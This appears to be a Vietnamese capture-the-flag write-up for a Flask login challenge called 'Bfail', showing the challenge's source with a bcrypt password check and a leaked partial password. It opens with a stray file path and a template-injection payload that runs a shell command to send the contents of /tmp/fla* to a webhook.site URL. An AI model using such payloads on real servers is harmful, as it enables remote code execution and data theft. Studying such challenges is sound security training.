```${__import__('os').system('$(wget https://webhook.site/9014953e-496e-467e-9e71-c95ea9444dad/a?b=`cat /tmp/fla*`);')}```
![image](https://hackmd.io/_uploads/HJqnjGAuJx.png)

Thấy là source ở endpoint /source nên mình mở thử xem

![image](https://hackmd.io/_uploads/H1kRaMCOkg.png)

```python

from flask import Flask, request, redirect, render_template_string
import sys
import os
import bcrypt
import urllib.parse

app = Flask(__name__)
app.secret_key = os.urandom(16);
# This is super strong! The password was generated quite securely. Here are the first 70 bytes, since you won't be able to brute-force the rest anyway...
# >>> strongpw = bcrypt.hashpw(os.urandom(128),bcrypt.gensalt())
# >>> strongpw[:71]
# b'\xec\x9f\xe0a\x978\xfc\xb6:T\xe2\xa0\xc9<\x9e\x1a\xa5\xfao\xb2\x15\x86\xe5$\x86Z\x1a\xd4\xca#\x15\xd2x\xa0\x0e0\xca\xbc\x89T\xc5V6\xf1\xa4\xa8S\x8a%I\xd8gI\x15\xe9\xe7$M\x15\xdc@\xa9\xa1@\x9c\xeee\xe0\xe0\xf76'
app.ADMIN_PW_HASH = b'$2b$12$8bMrI6D9TMYXeMv8pq8RjemsZg.HekhkQUqLymBic/cRhiKRa3YPK'
FLAG = open("flag.txt").read();

@app.route('/source')
def source():
    return open(__file__).read()

@app.route('/', methods=["GET"])
def index():

    username = request.form.get("username", None)
    password = request.form.get("password", None)

    if username and password:

        username = urllib.parse.unquote_to_bytes(username)
        password = urllib.parse.unquote_to_bytes(password)

        if username != b"admin":
            return "Wrong user!"

        if len(password) > 128:
            return "Password too long!"

        if not bcrypt.checkpw(password, app.ADMIN_PW_HASH):
            return "Wrong password!"

        return f"""Congrats! It appears you have successfully bf'ed the password. Here is your {FLAG}"""
    
    # Use f-string formatting within the template string
    template_string = """
    <!DOCTYPE html>
    <html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta http-equiv="X-UA-Compatible" content="IE=edge">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>Bfail</title>
    </head>
```
